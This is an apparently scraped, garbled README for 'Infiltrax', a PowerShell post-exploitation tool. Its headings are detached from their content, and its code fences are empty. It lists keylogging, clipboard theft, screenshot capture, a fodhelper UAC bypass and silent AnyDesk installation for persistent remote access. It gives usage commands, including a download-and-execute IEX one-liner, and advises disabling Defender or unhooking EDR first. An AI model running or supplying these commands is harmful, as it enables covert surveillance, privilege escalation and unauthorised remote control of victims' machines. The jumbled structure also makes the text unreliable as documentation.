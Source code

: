 
    This function is taken from https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692 all credit goes to netbiosX :). Spawnning cmd.exe or powersell.exe from script gets caught by behavioural 
    detection disable defender or unhook EDR first.
![Infiltrax](https://raw.githubusercontent.com/alexdhital/Infiltrax/main/usage.gif)
# Infiltrax
## Features
## Usage
## Warning and Legal Notice
- **AnyDesk Installation**: Install and configure AnyDesk with unattended access.
- **Clipboard Retrieval**: Access the current clipboard contents.
- **Keystroke Logging**: Record keystrokes for a specified duration.
- **Screenshot Capture**: Take screenshots of the entire screen and save them as PNG files.
- **UAC Bypass**: Bypasses UAC via fodhelper.exe
1. **Execute directly into memory**
2. **Get Clipboard contents**
3. **Take desktop screenshot and save into certain location**
4. **Capture user keystrokes and save in a file**
5. **Bypass UAC to run any program in elevated context. Default program powershell.exe**
6. **Installs anydesk silently, sets up unattended access and gets remote id** (Requires Administrative Privilege)
C:\Users\Administrator\Desktop> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/alexdhital/Infiltrax/main/Infiltrax.ps1')
C:\Users\Administrator\Desktop> Invoke-AnyDeskInstall -InstallPath "C:\Users\Alex\AppData\Local\AnyDesk" -Password "Unattended123!" 
C:\Users\Administrator\Desktop> Invoke-Clipboard
C:\Users\Administrator\Desktop> Invoke-KeyStrokeCapture -DurationInSeconds 30 -OutputPath C:\Users\Vlex\Desktop\keystrokes.txt
C:\Users\Administrator\Desktop> Invoke-Screenshot -Path "C:\Windows\Tasks\"
C:\Users\Vlex\Desktop> Invoke-FodHelperBypass -program "calc.exe"
Infiltrax is a post-exploitation reconnaissance tool for penetration testers and red teams, designed to capture screenshots, retrieve clipboard contents, log keystrokes, bypass UAC and install AnyDesk for persistent remote access.
This tool is intended solely for use by penetration testers and red team professionals during authorized engagements during post exploitation. Do not use this tool for unauthorized access or illegal activities.
```
```powershell
